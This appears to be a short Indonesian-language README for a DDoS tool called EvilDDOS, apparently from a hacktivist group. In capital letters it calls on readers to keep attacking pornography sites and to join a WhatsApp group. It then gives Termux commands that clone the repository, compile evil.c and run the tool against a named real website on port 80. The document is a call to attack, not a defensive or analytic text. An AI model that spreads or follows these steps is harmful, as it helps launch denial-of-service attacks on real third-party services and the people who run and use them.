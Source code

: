 # EvilDDOS

TERUS MELUNCURKAN SERANGAN DDOS TERUTAMA SITUS" PORN,
AYO GABUNG BERSAMA MELAKUKAN SERANGAN DDOS TERHADAP SITUS-SITUS PORN SALAM FROM MEMBER CYBER PHOENIX🙏

AYO GABUNG DI GROUP Evil Muslim Cyber https://chat.whatsapp.com/Io4AGKjEOYh7X6ZCPWjGKH

```$ pkg update && pkg upgrade

$ pkg install python2

$ pkg install git

$ pkg install clang

$ git clone https://github.com/HRC303/EvilDDOS

$ cd EvilDDOS

$ clang evil.c -o evil

$ chmod +x evil

$ ./evil www.xnxx.com 80
